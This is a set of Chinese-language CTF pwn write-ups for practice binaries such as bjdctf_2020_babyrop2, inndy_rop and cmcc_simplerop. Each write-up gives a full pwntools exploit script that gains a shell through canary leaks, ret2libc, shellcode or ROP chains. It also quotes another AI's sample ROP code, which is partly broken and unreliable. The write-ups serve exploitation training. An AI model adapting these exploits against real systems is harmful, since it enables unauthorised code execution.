

> `gift`函数



> `vuln`函数

1. 存在`canary`机制考虑怎么泄露`canary`,在`gift`函数中存在一个格式化字符漏洞可以利用

   - 因为这里对输入长度做了限制,所以不能用常规`%p%p%p...`来泄露偏移量,但是我们可以用`%n$p`来泄露偏移量,`n`是偏移的位置,`$p`是打印该位置上的值

     ```python
     from pwn import *
     context.log_level = 'debug'
     io = process('./bjdctf_2020_babyrop2')
     io.sendlineafter(b"I'll give u some gift to help u!\n",b'A%6$p')
     io.interactive()
     ```

     ```shell
     [DEBUG] Received 0x44 bytes:
         b'Can u return to libc ?\n'
         b'Try u best!\n'
         b"I'll give u some gift to help u!\n"
     [DEBUG] Sent 0x6 bytes:
         b'A%6$p\n'
     [*] Switching to interactive mode
     [DEBUG] Received 0x36 bytes:
         b'A0x7024362541\n'
         b'Pull up your sword and tell me u story!\n'
     A0x7024362541
     Pull up your sword and tell me u story!
     $
     ```

     > 当`n`等于`6`时看到了`0x41`,确定偏移为`6`

   - 根据上面提到的,我们知道`canary`在栈的末尾,所以把偏移往后移一位就可以得到`canary`的值

     ```shell
     [DEBUG] Received 0x23 bytes:
         b'Can u return to libc ?\n'
         b'Try u best!\n'
     [DEBUG] Received 0x21 bytes:
         b"I'll give u some gift to help u!\n"
     [DEBUG] Sent 0x6 bytes:
         b'A%7$p\n'
     [*] Switching to interactive mode
     [DEBUG] Received 0x13 bytes:
         b'A0x6b3d526f8ba61400'
     $
     ```

     ```shell
     pwndbg> stack 0x20
     00:0000│ rsp 0x7ffd2b15b170 ◂— 0x7024372541 /* 'A%7$p' */
     01:0008│     0x7ffd2b15b178 ◂— 0x6b3d526f8ba61400
     02:0010│ rbp 0x7ffd2b15b180 —▸ 0x7ffd2b15b1a0 ◂— 0x1
     03:0018│     0x7ffd2b15b188 —▸ 0x400905 (main+43) ◂— mov eax, 0
     ```

2. 获得了`canary`之后就是常规的`64`位泄露`libc`,但是在填充栈的时候有一些不同,我们要注意覆盖`canary`的位置

   - 

     > 通过ida我们看到`buf`的栈空间为`0x18`

     栈填充部分如下

     | rbp  |         |        |       |
     | :--: | :-----: | :----: | :---: |
     |      | padding |        | 0x18  |
     |      |         | canary | value |
     |      |         | leave  |  0x8  |
     |      |         |  ret   |       |

     泄露`libc`完整`payload`

     | rbp  |           |        |       |            |
     | :--: | :-------: | :----: | :---: | :--------: |
     |      |  padding  |        | 0x18  |            |
     |      |           | canary | value |            |
     |      |           | leave  |  0x8  |            |
     |      |  pop_rdi  |  ret   |       | ROPgadgets |
     |      | puts_got  |  ret   |       |            |
     |      | puts_plt  |  ret   |       |            |
     |      | vuln_addr |  ret   |       |            |

3. 得到`libc`构造`payload`得到`shell`

```python
#远程脚本
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = 'debug'
io = remote('node5.buuoj.cn',26462)
elf = ELF('./bjdctf_2020_babyrop2')

io.sendlineafter(b"I'll give u some gift to help u!\n",b'%7$p')
io.recvuntil(b'0x')
canary = int(io.recvline(16),16)    #recv(),15或者16都可以,后续函数会自动去除的

print('canary->',hex(canary))
padding = b'A'*0x18+p64(canary)+b'A'*8
payload = padding + p64(0x0000000000400993) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym['vuln'])
io.sendlineafter(b'Pull up your sword and tell me u story!',payload)
io.recvuntil(b'\n')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr->',hex(puts_addr))

Lib = LibcSearcher('puts',puts_addr)
Liboffset = puts_addr - Lib.dump('puts')
sys_addr = Liboffset + Lib.dump('system')
bin_sh_addr = Liboffset + Lib.dump('str_bin_sh')
payload = padding+p64(0x0000000000400993)+p64(bin_sh_addr)+p64(sys_addr)+p64(elf.sym['main'])
io.sendlineafter(b"Pull up your sword and tell me u story!",payload)
io.interactive()
```

```python
#本地脚本
from pwn import *
context.log_level = 'debug'
#io = process('./bjdctf_2020_babyrop2')
io = gdb.debug('./bjdctf_2020_babyrop2','break vuln')
elf = ELF('./bjdctf_2020_babyrop2')
Lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')

io.sendlineafter(b"I'll give u some gift to help u!\n",b'%7$p')
io.recvuntil(b'0x')
canary = int(io.recvline(16),16)    #recv(),15或者16都可以,后续函数会自动去除的

print('canary->',hex(canary))
padding = b'A'*0x18+p64(canary)+b'A'*8
payload = padding + p64(0x0000000000400993) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym['vuln'])
io.sendlineafter(b'Pull up your sword and tell me u story!',payload)
io.recvuntil(b'\n')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr->',hex(puts_addr))
Liboffset = puts_addr - Lib.sym['puts']
sys_addr = Liboffset + Lib.sym['system']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))
payload = padding+p64(0x0000000000400993)+p64(bin_sh_addr)+p64(0x00000000004005f9)+p64(sys_addr)
io.sendlineafter(b"Pull up your sword and tell me u story!",payload)
io.interactive()
```

由于我本地环境是`Wsl-Ubuntu-22.04`会出现本地打不通的情况,所以需要在调用`system`前加上`ret`即`+p64(0x00000000004005f9)`填充内存空间,具体原因参考如下

```
环境差异：
•	libc版本不同：不同版本的glibc库在处理函数调用时可能存在差异，如系统调用、格式化字符串解析、堆管理等。例如，上述信息提及，glibc 2.27及更高版本的system()函数内部实现可能使用了xmm寄存器，要求内存对齐，如果本地环境与远程环境的glibc版本不一致，可能导致利用失败。
```

通过调试可以发现,本地不通确实是因为调用了`xmm`寄存器

```shell
─────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────
   0x7faee5924967 <do_system+103>    mov    qword ptr [rsp + 188h], 0
 ► 0x7faee5924973 <do_system+115>    movaps xmmword ptr [rsp], xmm1
   0x7faee5924977 <do_system+119>    lock cmpxchg dword ptr [rip + 1cae01h], edx
   0x7faee592497f <do_system+127>    jne    7faee5924c30h                 <do_system+816>
```

我们需要让`system`的地址正好落在`16`字节的栈边界,从根本(原理)上改变是很困难的,但是可以通过填充`rop`比如`nop,ret`来填充需要的字节.

解决办法:在`system`函数地址前加一个或多个`ret`尝试打通本地

参考通义千问回答的代码:

>在使用pwntools编写exploit脚本时，确实可以通过ROP（Return-Oriented Programming）技术来实现对齐。如果你知道目标地址必须是对齐的，例如16字节对齐，那么在构造ROP链的过程中，可以插入适当的NOP sled或者找到内存中一个合适的返回指令片段，确保payload中的关键地址（比如system函数的地址或其所在plt/got表项的地址）在其之前填充足够的字节以达到对齐要求。
>
>例如，在ropchain构建过程中：
>
>```python
>from pwn import *
>
># 假设已经得到了elf、libc等上下文信息
>
>context.arch = 'amd64'  # 设置架构为x86_64
>
># ... 省略其他代码，如连接到远程服务器、获取shellcode等
>
># 找到system gadget和其他需要使用的gadgets
>pop_rdi = elf.gadgets['pop rdi; ret']  # 用于放置参数
>syscall = elf.plt['syscall']  # 或者直接用系统调用号对应的gadget
>
># 确保system地址是16字节对齐的
>system_addr = next((addr for addr in gadgets if addr % 16 == 0 and gadgets[addr].endswith('ret')), None)
>if not system_addr:
># 如果没有找到对齐的system gadget，可能需要创建一个填充的ROP链
>padding = b'\x90' * (16 - (next_gadget_address % 16))  # 使用NOP sled填充
>rop += padding
>system_addr = next_gadget_address + len(padding)
>
>rop += p64(pop_rdi)  # 将"/bin/sh"字符串地址放入rdi
>rop += p64(binary.search('/bin/sh'))  # "/bin/sh"的地址
>rop += p64(system_addr)  # 调用system gadget
>
># 发送ROP链
>payload = b'A'*overflow_size + rop
>io.send(payload)
>```
>
>请注意上述代码仅为示例，实际利用中需要根据具体环境和栈布局来调整。在实际场景中，如果是因为system()函数内部实现要求xmm寄存器对齐，则通常会检查并保证栈上相关数据的对齐，而不仅仅是system函数本身的地址对齐。在这种情况下，你可能需要更深入地分析程序行为，并且可能需要结合额外的技术手段（如寻找特定类型的gadget）来构造满足条件的ROP链。

# mrctf2020_shellcode


- `pwntools`中`shellcode`使用与配置

```shell
bamuwe@qianenzhao:~$ checksec mrctf2020_shellcode
[*] '/home/bamuwe/mrctf2020_shellcode'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      PIE enabled
    Stack:    Executable
    RWX:      Has RWX segments
```

> 没有开启`NX`

1. 没有开启`NX`考虑往栈上直接写入代码
2. `ida`和动态调试都发现`buf`栈空间为`0x410`足够写入`shellcode`

```python
from pwn import *
context(arch='amd64',log_level='debug')
#io = gdb.debug('./mrctf2020_shellcode','break main')
io = process('./mrctf2020_shellcode')
payload = asm(shellcraft.sh())
io.sendlineafter(b'Show me your magic!\n',payload)
io.interactive()
```

一开始没加`context`那一行报了`EOF`错误,是因为`shellcraft.sh()`默认生成的是`32`位`shellcode`,我们需要给他配置一下环境.

> 参考:[能坑我，但没有完全坑我——mrctf2020_shellcode - Haokunnnnnnnna - 博客园 (cnblogs.com)](https://www.cnblogs.com/p201921420037/p/14646604.html)

# jarvisoj_level4



- `32`位`libc`泄露
- `ret2libc`

1. 存在漏洞函数`vulnerable_function`变量`buf`存在溢出
2. 常规`32`位泄露`libc`

```python
from pwn import *
io = process('./level4')
#context.log_level = 'debug'
elf = ELF('./level4')
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
#io = gdb.debug('./level4','break vulnerable_function')
padding = b'A'*(0x88+0x4)
payload1 = padding+p32(elf.plt['write'])+p32(elf.sym['vulnerable_function'])+p32(0x1)+p32(elf.got['write'])+p32(0x4)
io.send(payload1)
write_addr = u32(io.recv(4))
print('write_addr->',hex(write_addr))

Liboffset = write_addr - Lib.sym['write']
sys_addr = Liboffset + Lib.sym['system']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))
payload2 = padding + p32(sys_addr) + p32(0) + p32(bin_sh_addr)
io.send(payload2)
io.interactive()
```

不知道为什么,本地打通了但是远程泄露的`libc`有点问题,打不通,还是菜

# PicoCTF_2018_buffer_overflow_1




- `ret2text`

1. `vuln`函数中`s`变量存在溢出
2. 存在后门函数
3. 构造`payload`填充再跳转到后门函数`win`就可以得到`flag`

```python
from pwn import *
io = process('./PicoCTF_2018_buffer_overflow_1')
padding = b'A'*(0x28+0x4)
payload = padding+p32(0x080485CB)
io.sendlineafter(b'Please enter your string: \n',payload)
io.interactive()
```

# inndy_rop



- `one-gadget`利用

1. `overflow()`函数中存在溢出

2. 没有`system`也没有输出函数

3. 没有`/bin/sh`或者`sh`可利用字段

4. 程序是静态链接

   ```shell
   bamuwe@qianenzhao:~$ file rop
   rop: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=e9ed96cd1a8ea3af86b7b73048c909236d570d9e, not stripped
   ```

   

利用`ROPgadgets`工具生成`ROP`链

```shell
bamuwe@qianenzhao:~$ ROPgadget --binary rop --ropchain
```

生成`ROP`链

```python
#!/usr/bin/env python3
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = b''

p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de769) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0806c943) # int 0x80
```

构造`payload`得到`shell`

```python
from pwn import *
from struct import pack
io = process('./rop')
padding = b'A'*(0xC+0x4)

p = b''
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de769) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0806c943) # int 0x80
payload = padding + p
io.sendline(payload)
io.interactive()
```

# cmcc_simplerop



- `int 0x80`调用系统函数
- `.bss`段控制
- `32`位参数控制

1. 在主函数中存在溢出,但是栈空间并不准确,需要动态调试计算

```shell
pwndbg> telescope $ebp
00:0000│ ebp 0xffffcf28 —▸ 0x80495f0 (__libc_csu_fini) ◂— push ebx
01:0004│     0xffffcf2c —▸ 0x804903a (__libc_start_main+458) ◂— mov dword ptr [esp], eax
02:0008│     0xffffcf30 ◂— 0x1
03:000c│     0xffffcf34 —▸ 0xffffcfb4 —▸ 0xffffd100 ◂— '/home/bamuwe/simplerop'
04:0010│     0xffffcf38 —▸ 0xffffcfbc —▸ 0xffffd117 ◂— 'SHELL=/bin/bash'
05:0014│     0xffffcf3c ◂— 0x0
06:0018│     0xffffcf40 ◂— 0x0
07:001c│     0xffffcf44 —▸ 0x80481a8 (_init) ◂— push ebx
pwndbg> telescope $esp
00:0000│ esp 0xffffcef0 ◂— 0x0
01:0004│     0xffffcef4 —▸ 0xffffcf0c ◂— 0x41414141 ('AAAA')
02:0008│     0xffffcef8 ◂— 0x64 /* 'd' */
03:000c│     0xffffcefc —▸ 0x80495d2 (__libc_csu_init+130) ◂— add ebp, 1
04:0010│     0xffffcf00 ◂— 0x1
05:0014│     0xffffcf04 —▸ 0xffffcfb4 —▸ 0xffffd100 ◂— '/home/bamuwe/simplerop'
06:0018│     0xffffcf08 —▸ 0xffffcfbc —▸ 0xffffd117 ◂— 'SHELL=/bin/bash'
07:001c│ ecx 0xffffcf0c ◂— 0x41414141 ('AAAA')
```

得到距离返回地址`0x20`个距离

2. 程序中没有`system`函数也没有`/bin/sh`字符,都需要自己构造

   - 通过`int 0x80`系统调用`execve`构造`shell``

     `int80(11,"/bin/sh",null,null)`构造这样的`payload`,`11`代表了`execve`函数,在这里函数参数的传递和一般`32`位程序函数传参不同,是通过寄存器传参的,从左到右分别为`eax,ebx,ecx,edx`

   - 通过往`.bss`段上写入`/bin/sh`再调用得到`/bin/sh`

     ```shell
     bamuwe@qianenzhao:~$ file simplerop
     simplerop: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=bdd40d725b490b97d5a25857a6273870c7de399f, not stripped
     bamuwe@qianenzhao:~$ checksec simplerop
     [*] '/home/bamuwe/simplerop'
         Arch:     i386-32-little
         RELRO:    Partial RELRO
         Stack:    No canary found
         NX:       NX enabled
         PIE:      No PIE (0x8048000)
     ```

     程序中`.bss`段的内存地址每次运行不会改变,所以我们可以动态调试得到地址直接拿来使用

   - 在`ida`中可以看到有一个`read`函数,我们可以用它来实现往`.bss`段上的写入

     

     > 有点不一样但是一样

3. 构造`payload`得到`shell`

   ```shell
   bamuwe@qianenzhao:~$ ROPgadget --binary simplerop --only int
   Gadgets information
   ============================================================
   0x080493e1 : int 0x80
   
   Unique gadgets found: 1
   ```

   得到`int 0x80`地址

   | rbp  |              |          |            |                |
   | :--: | :----------: | :------: | :--------: | :------------: |
   |      |   padding    |          |            |      0x1c      |
   |      |              |          |            |      0x4       |
   |      |  read_addr   |   ret    | 0x0806CD50 |                |
   |      |              | read_ret | 0x0806e850 | read的返回地址 |
   |      |     0x0      |          |            |      arg1      |
   |      |  b'/bin/sh'  |          |            |      arg2      |
   |      |     0x8      |          |            |      arg3      |
   |      | pop_arg_addr |   ret    | 0x0806e850 |                |
   |      |     0x0      |   edx    |            |                |
   |      |     0x0      |   ecx    |            |                |
   |      |   bss_addr   |   ebx    | 0x080EAFBA |                |
   |      | pop_eax_addr |   ret    | 0x080bae06 |                |

```python
from pwn import *
from struct import pack
context.log_level = 'debug'
#io = process('./simplerop')
elf = ELF('./simplerop')
io=gdb.debug('./simplerop')
padding = b'A'*0x20

payload1 = padding + p32(0x0806CD50)+p32(0x0806e850)+p32(0)+p32(0x080eb7c3)+p32(0x8)
payload1 += p32(0x0806e850)+p32(0)+p32(0)+p32(0x080eb7c3)+p32(0x080bae06)+p32(0xb)+p32(0x080493e1)

io.sendlineafter(b'Your input :',payload1)
io.send(b'/bin/sh\x00')
io.interactive()   
```

> 代码可读性真的差,铁铁我爱说实话

踩了一个坑,平时用`plt`的`read`四位之后直接是返回地址,但是这里不同,`read`函数结束后才是`ret`还要重新跳转一次.

这题应该用`ROPgadgets_ropchain`也能过,但是不知道为什么没有成功

> [cmcc_simplerop - 不会修电脑 - 博客园 (cnblogs.com)](https://www.cnblogs.com/bhxdn/p/12330142.html)
>
> [[栈溢出进阶小技巧\] cmcc_simplerop一题多解 - 『脱壳破解区』 - 吾爱破解 - LCG - LSG |安卓破解|病毒分析|www.52pojie.cn](https://www.52pojie.cn/thread-1821941-1-1.html)

# PicoCTF_2018_buffer_overflow_2


- `ret2text`
- `32`位程序函数参数劫持

1. `vuln`函数中存在溢出
2. 存在后门函数
3. 构造`payload`跳转到后门函数得到`shell`

这里要注意,跳转到后门函数的同时要传入两个参数`a1 & a2`,缺失参数会导致`eof`错误

```python
from pwn import *
io = process('./PicoCTF_2018_buffer_overflow_2')
padding = b'A'*(0x6c+4)
payload = padding+p32(0x080485CB)+p32(0)+p32(0xDEADBEEF)+p32(0xDEADC0DE)
io.sendlineafter(b'Please enter your string:',payload)
io.interactive()
```

#wustctf2020_getshell_2




> `shell`函数汇编代码

- `ROPgadgets`字符串的获取
- `call`指令的使用

1. 在漏洞函数`vulnerable`中存在溢出,但是溢出空间很小,只有`8`个位置(两个栈空间)

2. 在`shell`函数中存在`system`函数同时有一串字符串,字符串中有`/sh`

   ```shell
   bamuwe@qianenzhao:~$ ROPgadget --binary wustctf2020_getshell_2 --string 'sh'
   Strings information
   ============================================================
   0x08048670 : sh
   ```

   

3. 溢出到`call system`从栈中得到`/sh`传入参数得到shell

在这里只有两个栈空间可以使用,所以不能用`plt_system`,因为`plt`的时候参数是从后第五位开始的,而`call`指令的函数,直接是栈上后四位传入,题目条件限制了只有两个栈空间能使用,所以只能通过上述方法

```python
from pwn import *
io = process('./wustctf2020_getshell_2')

payload = b'A'*(0x18+4)+p32(0x08048529)+p32(0x08048670)
io.sendline(payload)
io.interactive()
```

by_the_way:这题一开始我是想用栈迁移来做,但是能力不足水平有限,搞了一会儿没耐心了,转而就用这种简单的办法,日后顾盼生姿.

# bbys_tu_2016




- 缓存区长度调试
- `32`位下的`ret2text`
- `cyclic`的使用

1. `main`函数中存在溢出
2. 存在后门函数
3. 构造`payload`,`ret2text`就可以得到`flag`

难点在于我们很难通过ida得到我们要溢出的长度,需要手动计算,接下来是两种方法

- A,通过`gdb`得到溢出长度

  

  

  停在输入地址,输入,手动查看`ebp`下的返回地址,减去输入位置得到长度

- B.通过`cyclic`生成字符串,根据返回报错得到长度

  ```shell
  bamuwe@qianenzhao:~$ cyclic 30
  aaaabaaacaaadaaaeaaafaaagaaaha
  ```

